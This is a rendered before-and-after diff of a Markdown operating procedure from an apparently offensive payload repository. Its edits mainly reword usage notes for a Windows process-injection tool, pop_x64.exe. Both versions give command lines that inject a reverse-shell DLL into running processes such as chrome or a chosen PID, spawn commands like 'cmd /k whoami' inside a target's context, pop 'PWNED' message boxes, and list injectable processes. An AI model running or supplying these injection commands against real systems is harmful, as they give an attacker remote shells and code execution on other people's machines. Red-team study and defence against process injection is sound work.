

Before and after one commit to m14r41/PayloadEverything, a Markdown page: thick-client/process-injection-2/sop.md, the part around one of its changes. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/thick-client/process-injection-2/sop.md
+++ b/thick-client/process-injection-2/sop.md
@@ -71,13 +66,11 @@ cd C:\Users\<you>\Downloads
 pop_x64.exe <target_PID_or_name> --dll revshell_x64.dll
 ```
 
-Shell lands on the attacker.
-
----
+A shell lands on the attacker.
 
 ## 4. Modes
 
-### `--dll` — reverse shell (primary use case)
+### `--dll` for a reverse shell (primary use case)
 
 ```powershell
 pop_x64.exe 1234 --dll revshell_x64.dll
@@ -85,9 +78,9 @@ pop_x64.exe MVTC --dll revshell_x64.dll
 pop_x64.exe chrome --dll revshell_x64.dll
 ```
 
-### `--spawn` — spawn a child process in the target's context
+### `--spawn` to spawn a child process in the target's context
 
-Common small apps as children of the target (good for PoC screenshots — the parent-child tree in Task Manager is the proof):
+Common small apps as children of the target. Good for PoC screenshots, since the parent-child tree in Task Manager is the proof.
 
 ```powershell
 pop_x64.exe <target> --spawn calc.exe
@@ -99,27 +92,25 @@ pop_x64.exe <target> --spawn "cmd /k whoami"
 pop_x64.exe <target> --spawn "cmd /k systeminfo"
 ```
 
-### `--msg` — visible MessageBox inside the target
+### `--msg` for a visible MessageBox inside the target
 
 ```powershell
-pop_x64.exe explorer                       # default banner
-pop_x64.exe explorer "I was here"          # custom text
+pop_x64.exe explorer
+pop_x64.exe explorer "I was here"
 pop_x64.exe 1234 "PWNED by m14r41"
 ```
 
-### `--list` — discover injectable targets
+### `--list` to discover injectable targets
 
 ```powershell
 pop_x64.exe --list
 ```
 
-Lists every PID you have `PROCESS_ALL_ACCESS` on, with name, user, memory, UI flag. Sorted by biggest working-set first.
-
----
+Lists every PID you have PROCESS_ALL_ACCESS on, with name, user, memory, UI flag. Sorted by biggest working-set first.
 
 ## 5. Example output
 
-### Success — DLL injection
+### DLL injection success
 
 ```
 C:\Users\admin\Downloads> pop_x64.exe 7936 --dll revshell_x64.dll
````
Also changed, not shown: other parts of thick-client/process-injection-2/sop.md (+47 -56 lines).
